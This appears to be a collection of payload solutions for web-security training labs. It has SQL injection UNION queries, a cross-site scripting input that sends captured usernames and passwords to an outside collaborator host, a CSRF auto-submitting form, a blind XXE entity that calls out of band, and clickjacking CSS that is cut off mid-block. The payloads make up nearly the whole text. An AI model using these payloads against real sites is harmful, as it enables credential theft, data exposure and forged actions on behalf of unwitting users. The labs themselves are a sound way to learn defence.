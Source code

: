 <br>
<br>

**Lab: SQL Injection Attack, Querying the Database Type and Version on MySQL and Microsoft**
```
Gifts'+UNION+SELECT+NULL,NULL#

Gifts'+UNION+SELECT+NULL,@@version#
```

<br>
<br>

**Lab: Exploiting cross-site scripting to capture passwords**
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://4x28nlhnbd0yv9of913vlou6cxio6gu5.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

<br>
<br>

**Lab: CSRF Where Token Validation Depends on Request Method**

Se não funcionar, substituta o `%40` por `@`.
```
<form action="https://0a33008204e8a86381bb0c1e004700be.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

<br>
<br>

**Lab: Blind XXE with Out-of-Band Interaction via XML Parameter Entities**
```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```

<br>
<br>

**Lab: Multistep Clickjacking**
```
<style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:$top_value1;
		left:$side_value1;
		z-index: 1;
	}
   .secondClick {
		top:$top_value2;
		left:$side_value2;
```